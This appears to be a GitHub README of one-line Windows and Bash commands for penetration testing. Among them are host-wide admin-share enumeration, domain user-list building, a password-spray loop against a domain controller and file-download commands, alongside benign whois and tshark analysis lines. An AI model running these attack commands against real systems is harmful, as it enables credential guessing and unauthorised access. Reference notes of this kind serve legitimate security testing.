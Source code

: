 # oneliners
One line DOS commands useful during pentests

Get-ChildItem -Recurse | Where-Object {$_.LastWriteTime -gt (Get-Date).AddDays(-180)}   #returns files modified in past 180 days

for /f %a in (hosts.txt) do dir /b /s \\\\%a\\C$\\Users\\file*

for /f %a in (hosts.txt) do @if exist \\\\%a\\C$\\Users\\ echo users found on %a

Build a user list, but will need to edit the output before using
for /f "skip=2 tokens=1,2,3" %i in ('net user /domain') do @echo %i >>testuser.txt & @echo %j >>testuser.txt & @echo %k >>testuser.txt

password spray
@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL 

invoke-webrequest -uri url -outfile filename
(New-Object System.Net.WebClient).DownloadFile("url","output")

wmic process call create "cmd.exe /c calc.exe"

(Bash) for i in (cat filename); do echo $i; done

With GDPR there is different information available between variosu registrars.  This whois query will query the specific registrar and return results direct from the registrar:
whois -h $(whois apple.com | grep 'WHOIS Server' | cut -d: -f 2) apple.com
or look up a few like this:
for i in sans.org theonion.com; do whois -h $(whois $i | grep 'WHOIS Server' | cut -d: -f 2) $i; done

This is more for the powershell stuff at the end of the line 
tshark -r e:\capture\random.pcap -Y http.user_agent -T fields -e http.user_agent | powershell -nop "$input | group-object | Select-Object -Property Count, Name | Sort-Object -Property Count -Descending "
tshark -r e:\capture\random.pcap -Y http.user_agent -T fields -e http.user_agent | powershell -nop "$input | group | select Count, Name | sort Count -d"
tshark -r e:\capture\m2.pcap -Y http.user_agent -T fields -e http.user_agent | powershell -nop "$input | group | select Count, Name | sort Count -d"










